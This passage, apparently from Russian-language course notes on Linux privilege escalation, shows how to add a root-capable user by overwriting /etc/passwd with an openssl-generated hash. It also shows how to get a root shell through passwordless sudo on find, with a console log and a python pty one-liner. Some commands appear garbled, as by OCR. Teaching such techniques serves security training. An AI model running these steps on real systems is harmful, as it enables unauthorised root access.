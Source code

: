 В таком случае стоит попробовать изменить файл passwd и добавить нового пользователя. Для этого копируем в tmp текущий файл passwd<br>![alt text](./imgs/mod4_4_cp1.png)

С помощью `openssl` создаем нового пользователя у себя на машине:

```bash
openssl passwd -1 -salt hacker password 
$1$xxxxxxxx$UYCIxa628.9qXjpQCjM4a
```

Здесь hacker — это пользователь, а password — пароль. Полученные данные добавляем в новый (созданный самим собой) passwd

Копируем каким-нибудь образом такой файл на атакуемый хост и с помощью cp заменяем исходный файл.

Аналогично со случаем, когда правами root обладает какой-нибудь редактор: vi, vim, nano, etc… Таким образом можно редактировать любой файл в системе или добавить нового пользователя в passwd-файл.

## Разрешения обычным пользователям запускать приложения через SUDO

Часто администратор позволяет некоторым пользователям группы SUDO запускать приложения без запроса пароля.

Чтобы проверить, какие именно приложения можно запускать без запроса пароля, воспользуемся командой:

```bash
sudo -l
```

Обратите внимание на запись — `NOPASSWORD`. Она говорит о том, что следующие приложения можно запускать без пароля.

Например, если find доступен без пароля:

```console
Pasya@e71b8159c6a8:-$ sudo find /home exec shi \;
# whoami
root
# ls -alF /root
# python -c 'import pty:pty.spawn("/bin/bash")
root@e71b8159c6a8:/home/vasya# cd /root
root@e71b8159c6a8:-# pwd
root
root@e71b8159c6a8:-#
```

## Планировщик cron
